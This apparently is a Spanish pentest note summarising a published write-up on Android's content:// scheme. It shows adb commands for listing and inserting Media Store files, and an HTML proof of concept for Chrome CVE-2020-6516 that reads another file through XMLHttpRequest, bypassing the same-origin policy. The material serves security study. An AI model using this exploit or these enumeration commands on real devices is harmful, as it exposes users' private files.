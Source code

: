 ```yaml
---
title: content:// protocol
date: 2024-11-23
category: ['pentest mobile', 'android']
tags: []
summary: content:// protocol
---
```


Este es un resumen de la publicación https://census-labs.com/news/2021/04/14/whatsapp-mitd-remote-exploitation-CVE-2021-24027/

Listando Archivos en Media Store
Para listar archivos gestionados por Media Store, se puede usar el siguiente comando:

```html
$ content query --uri content://media/external/file
```

Para una salida más amigable para el usuario, mostrando solo el identificador y la ruta de cada archivo indexado:

```html
$ content query --uri content://media/external/file --projection _id,_data
```

Los proveedores de contenido están aislados en su propio espacio de nombres privado. El acceso a un proveedor requiere la URI específica content://. La información sobre las rutas para acceder a un proveedor se puede obtener de los manifiestos de la aplicación o del código fuente del marco de Android.

Acceso de Chrome a Proveedores de Contenido
Chrome en Android puede acceder a proveedores de contenido a través del esquema content://, lo que le permite acceder a recursos como fotos o documentos exportados por aplicaciones de terceros. Para ilustrar esto, se puede insertar un archivo en el Media Store y luego acceder a él a través de Chrome:

Inserte una entrada personalizada en el Media Store:

```html
cd /sdcard
echo "Hello, world!" > test.txt
content insert --uri content://media/external/file \
--bind _data:s:/storage/emulated/0/test.txt \
--bind mime_type:s:text/plain
Descubre el identificador del archivo recién insertado:
```

```html
content query --uri content://media/external/file \
--projection _id,_data | grep test.txt
# Output: Row: 283 _id=747, _data=/storage/emulated/0/test.txt
```

El archivo se puede ver en Chrome utilizando una URL construida con el identificador del archivo.

Por ejemplo, para listar archivos relacionados con una aplicación específica:

```html
content query --uri content://media/external/file --projection _id,_data | grep -i <app_name>
```

Chrome CVE-2020-6516: Bypass de la Política de Mismo Origen
La Política de Mismo Origen (SOP) es un protocolo de seguridad en los navegadores que restringe a las páginas web de interactuar con recursos de diferentes orígenes a menos que se permita explícitamente mediante una política de Compartición de Recursos de Origen Cruzado (CORS). Esta política tiene como objetivo prevenir filtraciones de información y falsificación de solicitudes entre sitios. Chrome considera content:// como un esquema local, lo que implica reglas SOP más estrictas, donde cada URL de esquema local se trata como un origen separado.

Sin embargo, CVE-2020-6516 fue una vulnerabilidad en Chrome que permitió eludir las reglas SOP para recursos cargados a través de una URL content://. En efecto, el código JavaScript de una URL content:// podía acceder a otros recursos cargados a través de URLs content://, lo que representaba una preocupación de seguridad significativa, especialmente en dispositivos Android que ejecutaban versiones anteriores a Android 10, donde el almacenamiento con alcance no estaba implementado.

La prueba de concepto a continuación demuestra esta vulnerabilidad, donde un documento HTML, después de ser subido bajo /sdcard y agregado a la Media Store, utiliza XMLHttpRequest en su JavaScript para acceder y mostrar el contenido de otro archivo en la Media Store, eludiendo las reglas SOP.

Prueba de Concepto HTML:

```html
<html>
<head>
<title>PoC</title>
<script type="text/javascript">
function poc()
{
var xhr = new XMLHttpRequest();

xhr.onreadystatechange = function()
{
if(this.readyState == 4)
{
if(this.status == 200 || this.status == 0)
{
alert(xhr.response);
}
}
}

xhr.open("GET", "content://media/external/file/747");
xhr.send();
}
</script>
</head>
<body onload="poc()"></body>
</html>
```